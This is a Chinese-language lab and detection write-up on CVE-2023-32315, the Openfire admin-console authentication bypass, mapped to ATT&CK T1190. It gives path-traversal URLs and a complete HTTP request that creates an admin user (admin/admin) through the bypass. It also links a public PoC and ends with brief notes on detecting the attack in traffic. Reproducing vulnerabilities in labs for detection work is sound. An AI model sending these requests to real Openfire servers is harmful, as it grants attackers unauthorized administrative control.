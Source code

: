 # T1190-CVE-2023-32315-Openfire管理后台认证绕过

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Openfire是根据开放源Apache许可获得许可的实时协作（RTC）服务器。

在Openfire版本4.7.4和4.6.7及以前，Openfire的Web管理后台存在一处目录穿越漏洞，这将允许攻击者绕过权限校验访问所有受限页面。

空间测绘查询语句：body="Openfire"

参考链接：

- <https://www.zhousa.com/archives/24514.html>
- <https://cn-sec.com/archives/1854597.html>
- <https://104.149.12.130/index.php/2023/06/16/openfire-history.html#title-6>

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

漏洞环境使用vulhub docker环境

执行如下命令启动一个4.7.4版本的Openfire:

```yml
docker-compose up -d
```

服务器启动后，访问`http://your-ip:9090`你将会被强制跳转到登录页面。

### 漏洞复现

#### 步骤1，验证漏洞是否存在

启动openfire服务器后，访问以下路径，验证漏洞是否存在。

```
http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

成功未授权访问日志文件，证明存在Openfire管理后台认证绕过漏洞

#### 步骤2，获取JSESSIONID和csrftoken

访问以下路径，获取获取JSESSIONID和csrftoken

```
http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/user-groups.jsp

http://localhost:9090/login.jsp?url=%2F%2Fsetup%2Fsetup-s%2F%25u002e%25u002e%2F%25u002e%25u002e%2Fuser-groups.jsp
```

#### 步骤3，构造数据包创建用户

构造数据包如下：

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=admin&name=&email=&password=admin&passwordConfirm=admin&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken
```

更多利用方法，可参考链接中的内容。

POC地址：

- <https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass>

这里直接使用脚本进行模拟测试：

![脚本自动化](1.png)

## 测试留痕

![jsessionid](jsessionid.png)

![csrftoken](csrftoken.png)

流量包见同目录下pcap文件。

## 检测规则/思路

研判分析要点：

- 结合流量上下文，URL路径和返回信息
- 关注状态码信息，并非都是200

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

盘点一下OpenFire的漏洞CVE-2023-32315

<https://104.149.12.130/index.php/2023/06/16/openfire-history.html#title-6>

